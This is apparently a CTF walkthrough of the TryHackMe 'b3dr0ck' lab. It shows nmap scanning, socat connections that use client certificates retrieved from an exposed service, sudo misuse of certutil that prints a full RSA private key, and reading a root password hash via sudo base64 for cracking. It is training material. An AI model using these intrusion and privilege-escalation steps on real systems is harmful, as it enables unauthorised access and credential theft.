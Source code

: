 ```yaml
---

title: Walkthrough - b3dr0ck
published: true
---
```


Tags: CTF, TLS, socat, sockets.
Description: Server trouble in Bedrock.
Difficulty: Easy
URL: [https://tryhackme.com/room/b3dr0ck](https://tryhackme.com/room/b3dr0ck)

* * *

## Notes

> Barney is setting up the ABC webserver, and trying to use TLS certs to secure connections, but he's having trouble. Here's what we know...
> - He was able to establish nginx on port 80,  redirecting to a custom TLS webserver on port 4040
> - There is a TCP socket listening with a simple service to help retrieve TLS credential files (client key & certificate)
> - There is another TCP (TLS) helper service listening for authorized connections using files obtained from the above service
> - Can you find all the Easter eggs?

Step one perform initial nmap scan `sudo nmap -Pn -sS -T4 -p- 10.10.77.166 -vvv` then enumerate further `sudo nmap -sC -sV -sT -Pn -O 10.10.77.166 -p22,80,4040,9009,54321`

```
PORT      STATE SERVICE      VERSION
22/tcp    open  ssh          OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 1a:c7:00:71:b6:65:f5:82:d8:24:80:72:48:ad:99:6e (RSA)
|   256 3a:b5:25:2e:ea:2b:44:58:24:55:ef:82:ce:e0:ba:eb (ECDSA)
|_  256 cf:10:02:8e:96:d3:24:ad:ae:7d:d1:5a:0d:c4:86:ac (ED25519)
80/tcp    open  http         nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://10.10.77.166:4040/
|_http-server-header: nginx/1.18.0 (Ubuntu)
4040/tcp  open  ssl/yo-main?
| fingerprint-strings:
|   GetRequest, HTTPOptions:
|     <h1>Welcome to ABC!</h1>
|     <p>Abbadabba Broadcasting Compandy</p>
|     <p>We're in the process of building a website! Can you believe this technology exists in bedrock?!?</p>
|     <p>Barney is helping to setup the server, and he said this info was important...</p>
|     <pre>
|     Hey, it's Barney. I only figured out nginx so far, what the h3ll is a database?!?
|     Bamm Bamm tried to setup a sql database, but I don't see it running.
|     Looks like it started something else, but I'm not sure how to turn it off...
|     said it was from the toilet and OVER 9000!
|_    Need to try and secure
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2022-08-30T15:55:13
|_Not valid after:  2023-08-30T15:55:13
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
9009/tcp  open  pichat?
| fingerprint-strings:
|   NULL:
 __          __  _                            _                   ____   _____
 \ \        / / | |                          | |            /\   |  _ \ / ____|
  \ \  /\  / /__| | ___ ___  _ __ ___   ___  | |_ ___      /  \  | |_) | |
   \ \/  \/ / _ \ |/ __/ _ \| '_ ` _ \ / _ \ | __/ _ \    / /\ \ |  _ <| |
    \  /\  /  __/ | (_| (_) | | | | | |  __/ | || (_) |  / ____ \| |_) | |____
     \/  \/ \___|_|\___\___/|_| |_| |_|\___|  \__\___/  /_/    \_\____/ \_____|

|_    What are you looking for?
54321/tcp open  ssl/unknown
```

Port 9009 we can ask for a cert and a private key and it will be given. The service is the TCP socket that was listening with the simple service for us to retrieve the TLS credential files. Now we have to find the other TCP (TLS) helper service listening for authorized connections using these files we obtained.

Going back into the 9009 service and asking for help gets us another hint using this command we can connect to the service on 54321. `socat stdio ssl:10.10.77.166:54321,cert=9009.cert,key=9009.rsa,verify=0`

```

 __     __   _     _             _____        _     _             _____        _
 \ \   / /  | |   | |           |  __ \      | |   | |           |  __ \      | |
  \ \_/ /_ _| |__ | |__   __ _  | |  | | __ _| |__ | |__   __ _  | |  | | ___ | |
   \   / _` | '_ \| '_ \ / _` | | |  | |/ _` | '_ \| '_ \ / _` | | |  | |/ _ \| |
    | | (_| | |_) | |_) | (_| | | |__| | (_| | |_) | |_) | (_| | | |__| | (_) |_|
    |_|\__,_|_.__/|_.__/ \__,_| |_____/ \__,_|_.__/|_.__/ \__,_| |_____/ \___/(_)



Welcome: 'Barney Rubble' is authorized.
b3dr0ck> help
Password hint: d1ad7c0a3805955a35eb260dab4180dd (user = 'Barney Rubble')
```

* * * 

## What is the barney.txt flag?

We can SSH into the server with the above credentials and get barneys flag.

![0xskar](/assets/b3dr0ck01.png)

```
barney@b3dr0ck:~$ sudo -l
[sudo] password for barney:
Matching Defaults entries for barney on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User barney may run the following commands on b3dr0ck:
    (ALL : ALL) /usr/bin/certutil
```

```
barney@b3dr0ck:~$ sudo /usr/bin/certutil

Cert Tool Usage:
----------------

Show current certs:
  certutil ls

Generate new keypair:
  certutil [username] [fullname]

barney@b3dr0ck:~$ sudo /usr/bin/certutil ls

Current Cert List: (/usr/share/abc/certs)
------------------
total 56
drwxrwxr-x 2 root root 4096 Apr 30 21:54 .
drwxrwxr-x 8 root root 4096 Apr 29 04:30 ..
-rw-r----- 1 root root  972 Aug 30 15:55 barney.certificate.pem
-rw-r----- 1 root root 1674 Aug 30 15:55 barney.clientKey.pem
-rw-r----- 1 root root  894 Aug 30 15:55 barney.csr.pem
-rw-r----- 1 root root 1678 Aug 30 15:55 barney.serviceKey.pem
-rw-r----- 1 root root  976 Aug 30 15:55 fred.certificate.pem
-rw-r----- 1 root root 1674 Aug 30 15:55 fred.clientKey.pem
-rw-r----- 1 root root  898 Aug 30 15:55 fred.csr.pem
-rw-r----- 1 root root 1678 Aug 30 15:55 fred.serviceKey.pem
```

```
sudo /usr/bin/certutil fred fredflinstone
Generating credentials for user: fred (fredflinstone)
Generated: clientKey for fred: /usr/share/abc/certs/fred.clientKey.pem
Generated: certificate for fred: /usr/share/abc/certs/fred.certificate.pem
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA6iiIBfgI4xvK3xVnhO1RmhM1hxjc/LDL8S3IN8RcnKvf9qiR
9NAOibBqHbQoYTWDHezR3oCWwEdU7EpLXiiD//qKoo0/+61mRnHXz8w8x5zYc5BT
aVN93AEzgJupfcOCR0fhTEfBzNQ8TfNHI59xQY8/R2prVJbD3QBiEmeNqt4bk8MF
MxaZGW02ZthkRig5VwSun/8WuJO2jSUHmPaetAoucdKnrg1KiYVeT2D3mayY15MX
vFz2Kd4n5j4cJj7hkTCWKtWUG4FKLyp92SRXvtszMsJtf/yEaUTVGDU7lLd1SIwM
OuBNR0Se2/xD2tpZqYLi5GUoDa9XglKqyl+A5QIDAQABAoIBADQbgOmTIKcpcCPk
p3y1MwuOasL9jW/OCBRLk9qVH+bdeKFzMcfA5PtO/s5NYQ8A0YS/RpS1GNcBCKzs
e4kgiv9TybYSqMJg+/mBK/1Z/cyN4r0UyPsPUVq8CbH88eLCtyMVo9VNwprKQAE4
ugP7X0Cvl+1UiT3xrvRnOWvPD3+OMKvbMX46/AmmGs9LLpyv0vOKj1q3yA3tKZSk
El5vXB80oke05h18tvBpPFGkoJPnUUkOjKCsx/bF4arEzLSpRDIMbBwf4SGYPfk3
VBLDgW539CUPkOLQjDP8cNrUYW3gVREITGuFguCLbWJ//Gj6wO2udAb5eo6pv7p0
U+KAnqECgYEA9vCydahMcWXDqQJH7AMOysuNhMMpGDnzpZTclMHKF0qyCS0NdiJp
cZniiQ3hC7JE3Dosl8CfItMFie/1UbUb0SEWDLPe8mGAOd8XltNKiJjFna6TEc+1
gbkuO+A7Zo1yjoYFO/9KCRBt/YT5b5GhKXet7KI8IOTVQAwPDEVF1OcCgYEA8r/I
2T3lo55HmIhErOzDfw5jT/dkVt0um/Y3wUuy36AZEUBucoWNTR7RF1jLStLnk1KO
JCg7f00N1NuhRQKD8cQ1iA0CwbffpkOfhK/GoykCTK/K/P+YDfugjdtXkC3bG4lr
MZ9ltN8ZyoWJ8KKwzJ+oRqDaOJZzU6G5v4p/dlMCgYBCcqRi2qWvQeXzfYSi8nOx
iDKNjgJp3XY9kSAF+1uJBvV/WJsttbbP9cuqe4yaHB9Bb3n+X7uyoDv2URafJO/W
R2PqiSAt8qSRbgGn+TUuKoXKl2ZFvbGmtZDGVeFGCDvSNCgGa/ydEcm3FWgVaIeI
ZAbuDP3HECx97oDCGYXf8wKBgQDXPkUak+7OQOedEZ9Lcfj67UgUPPnEqATPF+hi
RfwKnAv+JxKIC3G6Y0vllr9TzmS2VephlycCftF333NFHLDgLCmHRHogSSlPZQDK
B45rWE6IrwufgAdUxrybbFVdK7vv086vxnXJhlV5JSWlsKxyFFOCpNg6evUxv+JT
O7w/rwKBgHn/eV2jiqJISerDABd7RcHhIClNcNZJsgVm5Vq26OnMwRDeQuu9yhux
QlQPJnT24MF1lZtWLGMyCfHcULC6pUzNMVH42v8SOxghmUpSpxbuRhBWDhPvwLgh
G4sf3uOyIl5n/X+CB5LKK4si8+cbuiX5AGqfKE328PlhsdgnLtO7
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIICoTCCAYkCAjA5MA0GCSqGSIb3DQEBCwUAMBQxEjAQBgNVBAMMCWxvY2FsaG9z
dDAeFw0yMjA4MzAxNjU2MjVaFw0yMjA4MzExNjU2MjVaMBgxFjAUBgNVBAMMDWZy
ZWRmbGluc3RvbmUwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDqKIgF
+AjjG8rfFWeE7VGaEzWHGNz8sMvxLcg3xFycq9/2qJH00A6JsGodtChhNYMd7NHe
gJbAR1TsSkteKIP/+oqijT/7rWZGcdfPzDzHnNhzkFNpU33cATOAm6l9w4JHR+FM
R8HM1DxN80cjn3FBjz9HamtUlsPdAGISZ42q3huTwwUzFpkZbTZm2GRGKDlXBK6f
/xa4k7aNJQeY9p60Ci5x0qeuDUqJhV5PYPeZrJjXkxe8XPYp3ifmPhwmPuGRMJYq
1ZQbgUovKn3ZJFe+2zMywm1//IRpRNUYNTuUt3VIjAw64E1HRJ7b/EPa2lmpguLk
ZSgNr1eCUqrKX4DlAgMBAAEwDQYJKoZIhvcNAQELBQADggEBAHO163Qf3drbAeD6
bESefzUllv1Cqgs5vo/Ku4TuiZLAnpHnL9HUHaE29V/3vqJXyc/vzxxdBXqgjfq5
J1letQ5U56D0AJJhH114hh4RKe4EHn83Bl9E/AZ9hETTpDQ3N4a9sDs2/4B/hl8U
ZB3nzAnZQsESCjUWInjiqq8m6HoluJY8lO24jJ007Hbgw5+BGj496niufOvOf2df
8AX6P66idebbFgjLiM5rmo5hFQW0kBiEJy0b+E/nUGtJvabgePHBoQ4BC9NjaqIH
3+HVMnjmFUmN1/Sy3cEz0qWrmwFFQo+0VVi6Lx4a8EHck241VJ0+K7zLVysDgvov
mBJmhsM=
-----END CERTIFICATE-----
```

* * * 

## What is fred's password?

- We can use the above certs to socat into the 54321 and get freds password.

* * * 

## What is the fred.txt flag?

![0xskar](/assets/b3dr0ck02.png)

* * * 

## What is the root.txt flag?

```
fred@b3dr0ck:~$ sudo -l
Matching Defaults entries for fred on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on b3dr0ck:
    (ALL : ALL) NOPASSWD: /usr/bin/base32 /root/pass.txt
    (ALL : ALL) NOPASSWD: /usr/bin/base64 /root/pass.txt
```

Decode from base64 to base32 to md5 and throw it at crackstation to get root password then su

![0xskar](/assets/b3dr0ck03.png)

* * * 